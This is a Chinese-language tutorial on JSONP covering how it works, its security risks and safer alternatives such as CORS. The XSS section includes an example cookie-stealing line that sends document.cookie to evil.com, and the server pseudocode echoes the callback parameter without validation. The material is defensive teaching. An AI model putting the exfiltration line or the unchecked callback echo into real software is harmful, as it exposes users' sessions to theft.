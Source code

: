 JSONP（**JSON with Padding**）是一种早期解决浏览器**跨域请求数据**的方法，主要用于绕过同源策略限制，但它也存在一些明显的安全风险。

---

## ✅ 一、JSONP 的原理

### 🧠 核心点：

HTML 中的 `<script>` 标签可以**加载任何来源的 JavaScript 文件**，不会受同源策略限制。

---

### ✅ 原理步骤（图解概念）：

1. 浏览器通过动态插入一个 `<script>` 标签来请求跨域数据：
    
    ```html
    <script src="https://api.example.com/data?callback=handleData"></script>
    ```
    
2. 服务器返回的是一段 JS，而不是 JSON：
    
    ```js
    handleData({ name: '张三', age: 18 });
    ```
    
3. 浏览器执行这段 JS，会调用你提供的全局回调函数 `handleData`。
    

---

### ✅ 示例代码：

#### 浏览器端：

```html
<script>
  function handleData(data) {
    console.log('跨域数据:', data);
  }
</script>

<script src="https://api.example.com/data?callback=handleData"></script>
```

#### 服务器端（伪代码）：

```js
const callback = req.query.callback;
res.send(`${callback}(${JSON.stringify(data)})`);
```

---

## ⚠️ 二、JSONP 的风险

由于 JSONP 是**通过 `<script>` 标签加载外部 JavaScript**，它有如下严重安全隐患：

---

### 🔥 1. **XSS（跨站脚本攻击）**

如果攻击者让你加载恶意的“JSONP”接口，比如：

```html
<script src="https://evil.com/malicious.js"></script>
```

恶意接口返回的内容可能是：

```js
document.cookie = "session=stolen"; fetch("https://evil.com/steal?cookie=" + document.cookie);
```

由于这段代码直接由 `<script>` 执行，浏览器不会拦截，**攻击者可窃取你的 Cookie、Token 或劫持页面行为**。

---

### 🔥 2. **无域名限制、无认证机制**

- JSONP 无法发送请求头（比如 Authorization、Token）
    
- 没有请求来源校验，谁都能调用，只要知道接口地址
    
- 很容易被别人“盗用”接口（流量盗用、数据抓取）
    

---

### 🔥 3. **难以控制错误处理**

- JSONP 无法优雅处理 HTTP 错误（如 404/500）
    
- 如果服务器返回无效 JavaScript，可能导致全局报错或页面崩溃
    

---

## ✅ 三、如何降低 JSONP 风险

|方法|说明|
|---|---|
|❌ 不对敏感数据使用 JSONP|如登录、支付、用户信息等|
|✅ 严格限制回调函数名白名单|避免任意 JS 被执行|
|✅ 为 JSONP 接口增加 referer 校验|只允许特定域名访问|
|✅ 转用 CORS + `fetch` 或 `axios`|更现代、更安全的跨域方案|
|✅ 后端设置中间层代理|用你的服务器代理请求，避免前端跨域|

---

## ✅ 总结

|项目|说明|
|---|---|
|原理|动态插入 `<script>` 加载跨域 JS，JS 内调用全局回调函数|
|优点|兼容性强、绕过 CORS，适合老系统|
|缺点|安全性低、只能 GET 请求、不能传 headers|
|替代方案|CORS、服务器代理、中间层 API 网关|

---

## ✅ 建议

> JSONP 是一个 **过时但仍存在的解决方案**，现在应优先使用 `CORS`（跨域资源共享）或在服务端设置 **反向代理**。除非对方接口只支持 JSONP，不建议继续使用。

---
